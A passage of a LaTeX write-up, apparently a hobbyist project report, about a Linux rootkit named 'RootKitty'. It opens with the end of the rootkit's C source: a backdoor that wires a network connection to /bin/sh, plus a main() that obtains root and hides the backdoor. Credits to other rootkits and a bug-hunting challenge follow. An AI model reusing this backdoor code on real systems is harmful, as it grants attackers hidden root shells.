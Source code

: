 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
                    dup2(connfd,0);
                    dup2(connfd,1);
                    dup2(connfd,2);
                    execl("/bin/sh", "/bin/sh", (char *) 0);
                }
            }
        }else if(pid > 0){
            close(connfd);

            // Wait for child process
            if (waitpid(pid, NULL, 0) != pid) exit(1);
        }else {
            exit(1);
        }
    }
}

int main(int argc, char *argv[]) {

    // Get root for current process and hide the backdoor.
    obtain_root();

    // Then listen for commands.
    listen_for_commands();
}
\end{verbatim}
\subsection{Pocs or GTFO}

\includegraphics[width=\textwidth]{poc.png} 


\section{Greetz}
Contrary to popular belief I am not a coding god. Throughout the development of RootKitty I referenced (and appropriated) the source code of both the Linux kernel and as many rootkits I could get my mits on. Credit where credit is due:
\begin{itemize}
\itemsep0em
\item \href{https://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/}{Michael Coppola - Suterusu Rootkit}: Where I learnt about ASM hooking.
\item \href{https://github.com/nurupo/rootkit}{Nurupo Rootkit}: I really liked their method of abstracting ASM hooks and their usage of lists.
\item Zerocool: His only crime was curiosity.
\end{itemize}
\subsection{Bonus}
I am almost entirely certain there are exploitable vulnerabilities within this Rootkit. Bonus marks if you can root the rootkit.
\end{document}
